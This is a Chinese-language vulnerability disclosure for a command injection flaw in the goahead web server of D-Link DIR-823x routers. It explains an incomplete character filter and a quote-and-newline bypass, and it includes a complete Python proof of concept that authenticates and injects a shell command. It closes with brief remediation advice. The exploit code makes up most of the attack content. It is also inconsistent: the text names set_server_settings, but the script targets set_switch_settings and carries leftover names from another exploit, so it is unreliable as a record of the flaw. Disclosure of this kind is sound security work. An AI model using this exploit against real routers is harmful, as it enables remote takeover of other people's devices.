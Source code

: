 # DIink-DIR-823x/goform/set_server_settings命令执行漏洞

漏洞厂商：友讯科技股份有限公司

厂商官网：https://www.dlink.cn 

影响对象类型：网络设备

影响产品：Dlink-DIR-823x

影响产品版本：DIR-823x 250416，240802，240126

是否产品组件漏洞：否

## **一、漏洞概述**

**D-Link DIR-8****23x** 是D-Link公司推出的一款无线路由器产品。

D-Link DIR-823x 存在命令执行漏洞，该漏洞源于文件 /usr/sbin/goahead 在处理环境变量时未对输入参数进行充分校验，攻击者可利用该漏洞构造恶意请求，在系统上执行任意命令。

## 二、**漏洞详情**

路由器固件下载：[D-Link | 家庭网络](https://www.dlink.com.cn/home/product?id=3118)

ida分析二进制文件/usr/sbin/goahead,定位set_server_settings，手动恢复一下符号表，程序首先接收了三个参数，sys_cmd就是危险函数所在

 ![image-20250908170636713](https://cdn.jsdelivr.net/gh/Thir0th/blog-image/image-20250908170636713.png)

首先是一个检测，但检测不完整，只检测了"()'{};`"这七个字符串，这里240802，240126两个版本是没有任何检测的，所以直接存在命令注入，笔者分析的是250416，这里是有补丁的，我们需要绕过一下，利用引号拼接和\n进行注入\"\n{cmd}\n\，这样攻击这就可以绕过这个检测

 

 ![image-20250908200557880](https://cdn.jsdelivr.net/gh/Thir0th/blog-image/image-20250908200557880.png)

后续的sub_412E7C就会把字符串直接赋值给system去执行，这里就存在命令注入了，此处part存在注入

![img](https://cdn.jsdelivr.net/gh/Thir0th/blog-image/wps5.jpg) 

 

 POC

```
import requests
import logging
import argparse
import re
import hmac
import hashlib


logging.basicConfig(level=logging.DEBUG)


def extract_cookies_from_response(response):
    cookies = response.headers.get('Set-Cookie', '')
    sessionid = re.search(r'sessionid=([^;]+)', cookies)
    token = re.search(r'token=([^;]+)', cookies)
    sessionid = sessionid.group(1) if sessionid else None
    token = token.group(1) if token else None
    return sessionid, token

def send_get_login_page(session, host_ip):
    url = f"http://{host_ip}/login.html"

    headers = {
        "Host": host_ip,
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
        "Accept-Language": "en-US,en;q=0.5",
        "Accept-Encoding": "gzip, deflate",
        "Connection": "close",
        "Upgrade-Insecure-Requests": "1"
    }

    response = session.get(url, headers=headers)
    
    if response.status_code == 200:
        sessionid, token = extract_cookies_from_response(response)
        return sessionid, token
    else:
        logging.error("Failed to get login page.")
        logging.error(f"Status code: {response.status_code}")
        logging.error(f"Response: {response.text}")
        return None, None

def hash_password(password, token):
    hashed = hmac.new(token.encode(), password.encode(), hashlib.sha256).hexdigest()
    return hashed

def send_login_request(session, host_ip, username, hashed_password, sessionid, token):
    url = f"http://{host_ip}/goform/login"
    
    headers = {
        "Host": host_ip,
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0",
        "Accept": "*/*",
        "Accept-Language": "en-US,en;q=0.5",
        "Accept-Encoding": "gzip, deflate",
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
        "X-Requested-With": "XMLHttpRequest",
        "Origin": f"http://{host_ip}",
        "Connection": "close",
        # "Referer": f"http://{host_ip}/login.html",
        "Cookie": f"sessionid={sessionid}; token={token}"
    }
    
    payload = {
        "username": username,
        "password": hashed_password,
        "token": token
    }
    
    response = session.post(url, headers=headers, data=payload)
    
    return response

def send_diag_traceroute_request(session, host_ip, sessionid, token):
    url = f"http://{host_ip}/goform/set_switch_settings"
    headers = {
        "Host": host_ip,
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0",
        "Accept": "*/*",
        "Accept-Language": "en-US,en;q=0.5",
        "Accept-Encoding": "gzip, deflate",
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
        "X-Requested-With": "XMLHttpRequest",
        "Origin": f"http://{host_ip}",
        "Connection": "close",
        # "Referer": f"http://{host_ip}/login.html",
        "Cookie": f"sessionid={sessionid}; token={token}"
    }
    
    payload = {
        "port": "\"\nls\n\"",
        "token": token
    }
    

    response = session.post(url, headers=headers, data=payload)
    
    return response

def main():
    session = requests.session()

    parser = argparse.ArgumentParser(description='HTTP POST Request Example.')
    parser.add_argument('-H', '--host', metavar='host', default='192.168.1.1', help='Host IP address.')
    parser.add_argument('-u', '--username', metavar='Username', required=True, help='Login username.')
    parser.add_argument('-p', '--password', metavar='Password', required=True, help='Login password.')

    args = parser.parse_args()

    logging.info(f'Host IP: {args.host}')

    # Get login page
    sessionid, token = send_get_login_page(session, args.host)
    if sessionid and token:
        logging.info(f"GET login page request sent successfully. sessionid={sessionid}, token={token}")
        
        # Hash the password
        hashed_password = hash_password(args.password, token)
        
        # Send login request
        response = send_login_request(session, args.host, args.username, hashed_password, sessionid, token)
        if response.status_code == 200:
            logging.info("Login request sent successfully.")
            logging.debug(f"Response: {response.text}")
            
            # Extract updated sessionid and token from login response
            sessionid, token = extract_cookies_from_response(response)
            
            # Send LAN settings request
            response = send_diag_traceroute_request(session, args.host, sessionid, token)
            if response.status_code == 200:
                logging.info("LAN settings request sent successfully.")
                logging.debug(f"Response: {response.text}")
            else:
                logging.error("Failed to send LAN settings request.")
                logging.error(f"Status code: {response.status_code}")
                logging.error(f"Response: {response.text}")
        else:
            logging.error("Failed to send login request.")
            logging.error(f"Status code: {response.status_code}")
            logging.error(f"Response: {response.text}")
    else:
        logging.error("Failed to retrieve sessionid and token from login page.")

if __name__ == "__main__":
    main()
```

成功执行

![image-20250908201409241](https://cdn.jsdelivr.net/gh/Thir0th/blog-image/image-20250908201409241.png)



 

## **三、漏洞影响**

1. 攻击者可利用此漏洞远程命令执行
2. 攻击者可利用此漏洞RCE

## **四、修复方案**

1. 联系相关厂商，获取安全补丁，及时进行漏洞修复
2. 联系相关安全厂商，及时更新安全阻断策略
3. 临时对接口参数进行安全检查

‍